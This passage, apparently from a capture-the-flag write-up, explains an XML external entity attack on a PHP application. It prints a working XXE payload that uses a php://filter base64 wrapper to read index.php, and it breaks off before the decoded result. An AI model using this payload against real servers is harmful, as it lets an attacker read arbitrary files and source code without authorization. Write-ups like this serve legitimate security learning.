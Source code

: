 If the XML file is parsed in PHP, the url behaves as if it was passed to PHP's
`include()` function, allowing us to use filters such as `convert.base64-encode`
to retrieve the contents of arbitrary files.

So let us make a request with the following XML file converted to base64:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<root>
    <message>&xxe;</message>
</root>
```

<img alt="xxe" src="img/xxe/1.png">

Which decodes to the following:
